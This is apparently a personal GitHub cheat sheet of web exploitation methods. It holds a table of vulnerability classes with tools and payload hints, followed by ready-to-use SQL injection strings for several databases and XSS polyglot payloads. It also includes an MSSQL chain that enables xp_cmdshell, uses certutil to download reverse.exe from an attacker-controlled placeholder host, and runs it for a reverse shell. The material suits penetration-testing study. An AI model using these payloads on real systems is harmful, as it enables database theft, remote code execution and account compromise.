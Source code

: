 # UltraWeb-Manuals-Methods

```



```

| Web Exploits    | Strategy                                                                               | Tools                                  | Technique                                              |
| --------------- | -------------------------------------------------------------------------------------- | -------------------------------------- | ------------------------------------------------------ |
| SQLi            | Database enumeration -> Column number -> Determine Output layout ->  Objectives - WiRE | ffuf, burpsuite                        | `admin' 1 or 1=1 -- - ... '1'=1`                       |
| cmd injection   | Strategy                                                                               | `para?;` `/cgi-bin`                    |                                                        |
| XXS             | Strategy                                                                               | burpsuite                              | `<imgsrc= />` ... polyglots                            |
| SSTI            | Strategy                                                                               | `{{7*7}} -> Confirm backend`           |                                                        |
| Path traversal  | Strategy                                                                               |                                        |                                                        |
| LFI             | Strategy                                                                               | ....// ../../ url encoding             |                                                        |
| upload vulns    | Strategy                                                                               | hexedit, burpsuite                     | .ext, content-type, mime-type, magic numbers, filesize |
| IDOR            | Strategy                                                                               | id=1 -> id=0                           |                                                        |
| CSRF            | User interaction required!                                                             |                                        |                                                        |
| SSRF            | Strategy                                                                               |                                        | 127.0.0.1, yourIP, OtherIPs                            |
| deserialization | Strategy                                                                               | firefox console, cookie manager plugin | jwt deserialization, idor, ysoserial                   |


#### CMDi

```bash
#  `param?=;` `/cgi-bin`

<symbol><maybewhitespace><cmd>

```

#### SQLi

```sql

--MySQL
'version(),'
--MySQL and MSSQL
',INPUT=@@version,INPUT='
--  Oracle
',INPUT=(SELECT banner FROM v$version),email='
-- For SQLite
',INPUT=sqlite_version(),INPUT='
-- Old classics
' or 1=1 -- -
user=admin&pass=' OR '1'='1'


-- MSSQL 
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --

'; EXEC xp_cmdshell 'certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --

'; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```

#### SSTI

```python
{{7*7}} # -> Confirm backend
```


#### Upload Vulns

```bash
# hexedit, burpsuite, cyberchef 
# .ext, content-type, mime-type, magic numbers, filesize
```

#### XXS 

Filtering of characters
```javascript
< > ' " { } ;

// imgsrc is mostly never blocked
<imgsrc= />

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('Hacked') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Havked')//>\x3e

\%22})))}catch(e)alert(document.domain);}//
"];)catch(e)()if(!self.a)self.a=!alert(document.domain);//
"a")(((type:"ready")));)catch(e)alert(1))//
```

